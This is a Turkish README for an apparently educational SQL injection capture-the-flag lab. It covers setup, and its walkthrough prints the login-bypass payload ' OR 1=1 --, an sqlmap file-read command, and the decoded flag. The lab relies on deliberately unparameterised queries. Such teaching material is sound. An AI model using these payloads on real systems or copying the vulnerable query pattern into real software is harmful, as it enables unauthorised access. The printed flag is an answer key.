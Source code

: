 # SQL Injection Zorlu CTF Labı

![CTF](https://img.shields.io/badge/CTF-Lab-blue)

---

## İçindekiler

- [Proje Hakkında](#proje-hakkında)
- [Özellikler](#özellikler)
- [Kurulum](#kurulum)
- [Nasıl Çözülür?](#nasıl-çözülür)
  - [1. Giriş Formunu Bypass Etme (SQL Injection)](#1-giriş-formunu-bypass-etme-sql-injection)
  - [2. Gizli Flag Dosyasını Bulma](#2-gizli-flag-dosyasını-bulma)
  - [3. Flag’i Decode Etme](#3-flag’i-decode-etme)
- [Dosya ve Klasör Yapısı](#dosya-ve-klasör-yapısı)
- [Güvenlik Notları](#güvenlik-notları)
- [İleri Seviye Öneriler](#ileri-seviye-öneriler)
- [Katkıda Bulunanlar](#katkıda-bulunanlar)
- [Lisans](#lisans)

---

## Proje Hakkında

Bu proje, siber güvenlik alanında kendini geliştirmek isteyenler için hazırlanmış, **zor seviyede SQL Injection açığı içeren** bir CTF (Capture The Flag) laboratuvarıdır. Amacı, gerçekçi ve dayanıklı bir ortamda SQL Injection tekniklerini kullanarak:

- Giriş kontrol mekanizmasını bypass etmek,
- Sistem dosyalarında gizlenmiş flag’i keşfetmek,
- Flag içeriğini base64 ve hex formatlarından çözümleyerek anlamak,

gibi kritik becerileri öğretmektir.

---

## Özellikler

- **Hazırlanmış ifade (Prepared Statements) yerine kasıtlı olarak zafiyetli SQL sorguları**
- **SQL Injection ile bypass edilebilir giriş formu**
- **Flag, veritabanında değil sistemin gizli bir klasöründe `.assets/style.css` dosyasına base64 olarak gömülü**
- **Flag içeriği hex formatında saklanmış, çözüm için analiz gerektiriyor**
- **Bootstrap tabanlı estetik ve kullanıcı dostu arayüz**
- **Yanıltıcı ipuçları ve sahte log kayıtlarıyla zorluk artırılmış**

---

## Kurulum

1. **Sunucu ortamı hazırla:**

   - Apache + PHP + MySQL çalışır durumda olmalı (örneğin XAMPP, MAMP veya benzeri).

2. **Projeyi sunucuya kopyala:**

   - Proje dosyalarını `htdocs` veya `www` dizinine yerleştir.

3. **Veritabanını oluştur ve import et:**

   - PhpMyAdmin veya komut satırı ile yeni bir `ctf_zor` veritabanı oluştur.
   - `db.sql` dosyasını veritabanına import et.

4. **Web tarayıcısında projeyi aç:**

   - Örneğin: `http://localhost/index.php`

---

## Nasıl Çözülür?

### 1. Giriş Formunu Bypass Etme (SQL Injection)

- Giriş formu kasıtlı olarak SQL Injection açığı içerir.
- Kullanıcı adı ve şifre alanlarına aşağıdaki payload’ları kullanarak giriş yapabilirsiniz:

```text
Kullanıcı Adı: ' OR 1=1 --
Şifre: HerhangiBirŞey
```
- Bu, sorgunun şu şekilde çalışmasını sağlar:

```sql
SELECT * FROM users WHERE username='' OR 1=1 -- ' AND password='HerhangiBirŞey'
```

- Bu sorgu her zaman true döner ve giriş başarılı olur.

## 2. Gizli Flag Dosyasını Bulma
Flag, veritabanında değil sistemin gizli .assets klasöründeki style.css dosyasında saklanıyor.

- Dosya içeriği içinde flag, base64 olarak gömülü.

- SQL Injection açığı kullanılarak dosya okuma yapılmalı (örneğin sqlmap ile):

```bash
sqlmap -u "http://localhost/vulnerable.php?id=1" --file-read="/var/www/html/.assets/style.css"
```

- Böylece style.css dosyasının içeriğini elde edersiniz.

## 3. Flag’i Decode Etme
Dosya içeriğinde şu gibi base64 kodu vardır:

```css
meta::before { content: "base64:ZmxhZz0iNDY0YzQxNDc2NGE2NTY2N2MyMmMiOwo="; }
```

- Base64 çözümlemek için:

```bash
echo ZmxhZz0iNDY0YzQxNDc2NGE2NTY2N2MyMmMiOwo= | base64 -d
```

- Çıktı şu şekildedir:

```text
flag="464c41477b546869734973486172647d";
```

- Hex decode için:

```bash
echo 464c41477b546869734973486172647d | xxd -r -p
```

- Sonuç:

```text
FLAG{ThisIsHard}
```

---

### Dosya ve Klasör Yapısı

```bash
/
├── index.php        # Giriş sayfası, SQLi açığı var
├── panel.php        # Panel sayfası
├── hint.php         # Yanıltıcı ipuçları
├── 404.php          # Özel hata sayfası
├── db.sql           # Veritabanı dump dosyası
└── .assets/         # Gizli klasör
    └── style.css    # Flag içeren dosya (base64 gömülü)
```

---

### Güvenlik Notları
- Bu proje eğitim amaçlıdır, gerçek ortamda kullanılmamalıdır.

- Kasıtlı olarak SQL Injection açığı içermektedir.

- Yasal izin olmadan canlı sistemlerde test edilmemelidir.

### Ileri Seviye Öneriler
- Blind SQL Injection senaryosu ekleyebilirsiniz.

- Local File Inclusion (LFI) ve Remote File Inclusion (RFI) açıkları ile çeşitlendirebilirsiniz.

- XSS, CSRF gibi diğer zafiyetlerle labı zenginleştirebilirsiniz.

- Çoklu kullanıcı ve yetki kontrolü ekleyerek gerçekçilik artırılabilir.

### Katkıda Bulunanlar
- Proje sahibi: [Troll]

### Lisans
Bu proje MIT Lisansı altında lisanslanmıştır. Daha fazla bilgi için LICENSE dosyasına bakınız.
